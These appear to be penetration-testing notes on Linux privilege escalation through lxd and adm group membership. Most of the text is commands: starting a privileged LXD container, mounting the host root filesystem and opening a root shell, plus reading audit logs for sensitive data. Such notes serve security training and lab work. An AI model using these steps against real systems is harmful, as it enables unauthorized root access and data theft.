 ## 110(lxd)
### Starting a privileged container
#### Unzip the Alpine image.
```
unzip alpine.zip
```
#### Start the LXD initialization process. Choose the defaults for each prompt
#### Import the local image.
```
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```
Start a privileged container with the security.privileged set to true to run the container without a UID mapping, making the root user in the container the same as the root user on the host
```
lxc init alpine r00t -c security.privileged=true
```
#### Mount the host file system.
```
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```
Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type cd /mnt/root/root
```
lxc start r00t
```
```
lxc exec r00t /bin/sh
```
## 4(adm)
Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs
Check the audit.log file 
use aureport to view the contents
```
aureport --tty | less
```
## 116(lxd)
We can either create our own container and transfer it to the target system or use an existing container
```
cd ContainerImages
```
```
ubuntu-template.tar.xz
```
Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use.
For this, we need to import this container as an image.
```
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```
```
lxc image list
```
After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the security.privileged flag and the root path for the container. This flag disables all isolation features that allow us to act on the host
```
lxc init ubuntutemp privesc -c security.privileged=true
```